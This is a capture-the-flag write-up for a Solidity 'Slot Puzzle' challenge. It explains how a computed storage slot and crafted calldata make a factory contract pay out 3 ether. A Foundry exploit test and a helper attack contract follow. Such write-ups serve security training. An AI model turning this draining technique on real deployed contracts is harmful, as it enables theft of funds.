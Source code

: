 ## Slot Puzzle
To solve the slot puzzle we need to call the `deploy` function from the factory with the right data.

The `deploy` function will create a new SlotPuzzle() and add the address of the deployed contract to `deployedAddress` array and calls the `ascertainSlot` function on the deployed SlotPuzzle().

The `payout` function checks if the caller is in the `deployedAddress` array and that the amount is exatcly 1 ether. The first check will pass, if out created contract can call the `payout` function.

The `ascertainSlot` if called successfully will call the `payout` function in a loop for `params.recipients.length`.

The first two checks in `ascertainSlot` only checks that the `msg.sender` is the factory (as we use the deploy function this is true) and that the `params.recipients.length == params.totalRecipients` match what we just need to prepare right.

`ascertainSlot` is calling the `getSlotValue` that is checking that `bytes32 public immutable ghost` is matching the value load from storage that was saved in the constructor to the variable `ghostInfo`.

To calculate the right storage location where `ghost` was saved to, we need the following variables:
- tx.origin
- block.number
- block.timestamp
- msg.sender
- block.prevrandao
- block.coinbase
- block.chainid
- block.basefee

`msg.sender` is the factory contract, as this address is creating the SlotPuzzle contract and the tx.origin is the EOA who starts the transaction.
All other variables can be looked-up on the block where the contract was created.

To help us get the right storage location, we use a helper contract `AttackHelperSlotPuzzle` that copies the storage layout from SlotPuzzle and saves the same value to storage and give us a option to get the right storage slot that `getSlotValue` needs to load to match the `ghost`.

Now we only need to place the needed storage location on the right place in our call to `payout` that it will be on the following place: `calldataload(add(slotKey,offset))` what is 1e0 = 480 so the calldataload will load after 960 and here we need to place the right value for the storage slot.

In the POC I added some comments how I shifted the values so they are placed at the right location.

## Test
forge test --match-contract=SlotPuzzleTest

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.17;

import "forge-std/Test.sol";

import {SlotPuzzle} from "src/SlotPuzzle.sol";
import {SlotPuzzleFactory} from "src/SlotPuzzleFactory.sol";
import {Parameters,Recipients} from "src/interface/ISlotPuzzleFactory.sol";

contract SlotPuzzleTest is Test {
    SlotPuzzle public slotPuzzle;
    SlotPuzzleFactory public slotPuzzleFactory;
    address hacker;

    function setUp() public {
        slotPuzzleFactory = new SlotPuzzleFactory{value: 3 ether}();
        hacker = makeAddr("hacker");
    }

    function testHack() public {                
        vm.startPrank(hacker,hacker);
        assertEq(address(slotPuzzleFactory).balance, 3 ether, "weth contract should have 3 ether");

        //hack time

        // deploy a helper contract with same storage layout like SlotPuzzle to get the needed storage location
        AttackHelperSlotPuzzle attackStorageHelper = new AttackHelperSlotPuzzle(
            hacker,
            block.number,
            block.timestamp,
            address(slotPuzzleFactory),
            block.prevrandao, 
            block.coinbase,
            block.chainid,
            blockhash(block.number - block.basefee)
        );

        // get the storage slot where the value of ghost was stored on deployment of the SlotPuzzleFactory
        bytes32 storageLocation = attackStorageHelper.ghostSlot();

        // we transfer 3 times ether to us
        Recipients[] memory recipients = new Recipients[](3);        
        recipients[0] = Recipients({
            account: hacker,
            amount: 1 ether
        });
        recipients[1] = Recipients({
            account: hacker,
            amount: 1 ether
        });
        recipients[2] = Recipients({
            account: hacker,
            amount: 1 ether
        });

        // prepare the call
        Parameters memory params = Parameters({
            totalRecipients: 3, // needs to match the length of recipients
            offset: 0x84, // calldataload(132) = 0000000000000000000000000000000000000000000000000000000000000160
            recipients: recipients, // the ether transfers in ascertainSlot
            slotKey: abi.encode( // we need to prepare a bytes with length of 96
                0, // first 32 bytes we don't need, just fill with zeros, but can be anything
                storageLocation >> 224, // for the next 32 bytes, we need the first 4 bytes of our storageLocation in the end
                storageLocation << 32   // for the last 32 bytes, we need the storageLocation - the first 4 bytes we already have
                // we have now placed the storage location on the right place for the calldataload()
            )
        });

        slotPuzzleFactory.deploy(params);


        assertEq(address(slotPuzzleFactory).balance, 0, "weth contract should have 0 ether");
        assertEq(address(hacker).balance, 3 ether, "hacker should have 3 ether");

        
        vm.stopPrank();
    }
}

contract AttackHelperSlotPuzzle {
    bytes32 public immutable ghost = 0x68747470733a2f2f6769746875622e636f6d2f61726176696e64686b6d000000;    
    ISlotPuzzleFactory public factory;

    struct ghostStore {
        bytes32[] hash;
        mapping (uint256 => mapping (address => ghostStore)) map;
    }

    mapping(address => mapping (uint256 => ghostStore)) private ghostInfo;

    bytes32 public ghostSlot;

    constructor(address origin, uint256 blockNumber, uint256 timeStamp, address sender, uint256 prevran, address coinbase, uint256 chainid, bytes32 blockHash) {

        bytes32[] storage helper = ghostInfo[origin][blockNumber]
        .map[timeStamp][sender]
        .map[prevran][coinbase]
        .map[chainid][address(uint160(uint256(blockHash)))]
        .hash;

        bytes32 bytes32Help;
        assembly {
            mstore (0, helper.slot)
            bytes32Help := add (keccak256 (0, 32), 0)
        }

        ghostSlot = bytes32Help;
    }
}
```